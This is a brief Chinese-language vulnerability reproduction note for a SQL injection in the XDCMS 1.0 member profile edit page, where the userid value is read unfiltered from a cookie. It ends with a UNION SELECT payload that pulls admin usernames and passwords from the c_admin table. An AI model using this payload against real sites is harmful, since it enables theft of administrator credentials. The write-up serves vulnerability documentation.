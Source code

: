 XDCMS 1.0 sql注入漏洞（二）
===========================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`

![](resource/XDCMS1.0sql注入漏洞(二)/media/rId24.jpg)

漏洞文件位于`system/modules/member/index.php`，`line:178`

![](resource/XDCMS1.0sql注入漏洞(二)/media/rId25.jpg)

\$userid直接从Cookie中取出，并无任何过滤，导致注入

![](resource/XDCMS1.0sql注入漏洞(二)/media/rId26.jpg)

    select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin

